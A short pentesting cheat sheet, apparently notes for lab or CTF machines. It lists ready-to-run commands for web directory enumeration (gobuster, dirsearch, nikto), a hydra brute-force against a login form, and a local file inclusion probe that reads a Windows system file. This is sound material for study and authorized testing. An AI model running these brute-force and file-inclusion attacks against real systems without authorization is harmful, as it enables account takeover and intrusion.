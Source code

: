 ## Enumeration

### Gobuster
```
gobuster dir -u https://10.11.1.35 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50

gobuster dir -u http://10.11.1.72 -w /usr/share/SecLists/Discovery/Web-Content/common.txt -s '200,204,301,302,307,403,500' -e

```
### Dirsearch
https://github.com/maurosoria/dirsearch
```
python3 dirsearch.py -u <URL> -e <EXTENSION>

//search for txt files
python3 dirsearch.py -u https://10.10.10.60 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -f -e txt    
```

### Nikto

```
nikto -h IP_ADDR
```

## Bruteforce

## Hydra

```
//Bruteforce login form (Invalid is the error message return when a wrong password is provided"
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10k-most-common.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64 
```

### LOCAL FILE INCLUSION

when there is something like ```http://10.10.10.151/blog/?lang=blog-en.php```
if the host is Windows we can try to access this file in order to validate our findings:
```
10.10.10.151/blog/?lang=/windows/system32/license.rtf
```
